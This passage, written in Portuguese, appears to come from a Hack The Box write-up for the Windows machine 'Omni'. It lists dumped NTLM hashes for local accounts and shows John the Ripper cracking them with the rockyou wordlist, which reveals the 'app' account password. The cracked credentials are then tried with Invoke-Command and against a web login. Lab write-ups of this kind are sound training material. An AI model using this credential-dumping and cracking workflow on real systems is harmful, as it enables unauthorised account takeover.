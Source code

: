 ```powershell
#>  Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
#>  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
#>  sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
#>  DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
#>  app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
#>  [*] Cleaning up...
```

Com esses hashes, podemos tentar crackear as passwords com a ferramenta "john the ripper", e a tão famosa wordlist "rockyou.txt".

```powershell
echo "Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::" > hashes

john --wordlist=/usr/share/wordlists/rockyou.txt --format=nt hashes
john --format=NT --show hashes  # app:mesh5143
```

Neste momento tentei usar o Invoke_Command com as novas credentiais mas sem sucesso (também não existe...). Então tentei fazer login na página web que estava na porta 8080

![http logged](Assets/HTB-Windows-Easy-omni/http_logged.png)
